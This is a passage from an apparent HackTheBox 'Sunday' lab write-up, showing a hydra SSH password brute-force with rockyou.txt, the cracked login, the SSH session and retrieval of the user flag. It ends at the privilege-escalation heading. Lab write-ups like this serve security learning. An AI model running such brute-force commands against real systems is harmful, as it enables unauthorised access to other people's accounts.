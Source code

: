 ## Initial Foothold

Since SSH is open and we have two valid usernames, let’s try brute-forcing the users’ credentials using hydra. We’ll start off with Sunny.

```
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

I got back the following results.

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
....
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
....
```

Using these credentials, I tried to SSH into sunny's account.

```
┌──(darshan㉿kali)-[~/…/HackTheBox/Linux-Boxes/Sunday/finger-user-enum-1.0]
└─$ ssh -p 22022 sunny@10.10.10.76
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
ED25519 key fingerprint is SHA256:t3OPHhtGi4xT7FTt3pgi5hSIsfljwBsZAUOPVy8QyXc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (ED25519) to the list of known hosts.
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$ whomai
-bash: whomai: command not found
sunny@sunday:~$ id
uid=101(sunny) gid=10(staff)
sunny@sunday:~$ pwd
/home/sunny
```

Trying to locate the user flag, I used the `find` command.

```
sunny@sunday:/home$ find / -name  user.txt 2>/dev/null
/home/sammy/user.txt
```

Grabbing the user flag.

```
sunny@sunday:/home$ cat sammy/user.txt
[REDACTED]
```

## Privelege Escalation
I tried running the `sudo -l` command and it gave me the following:
